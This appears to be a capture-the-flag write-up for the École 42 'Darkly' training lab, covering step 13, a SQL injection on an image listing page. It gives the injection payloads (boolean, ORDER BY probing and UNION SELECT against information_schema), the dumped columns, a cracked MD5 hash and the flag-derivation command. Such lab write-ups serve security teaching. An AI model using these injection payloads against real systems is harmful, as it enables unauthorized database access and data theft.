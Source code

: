 # Darkly - École 42

## 13. SQL Injection - Image

'''
1 or true
1 or true ORDER BY 1--
1 or true ORDER BY 2--
1 or true ORDER BY 3--
1 UNION all SELECT table_name, column_name FROM information_schema.columns
'''

```
ID: 1 UNION all SELECT table_name, column_name FROM information_schema.columns
Url : list_images

Title: id
Title: url
Title: title
Title: comment
```

-`1 UNION SELECT id, concat(url, title, comment) FROM list_images`

`borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46`

`1928e8083cf461a51303633093573c46` (MD5) ==> `albatroz`

- `1 UNION SELECT id, concat(comment ,title) FROM list_images WHERE id=5`

- `echo -n "albatroz" | sha256sum`

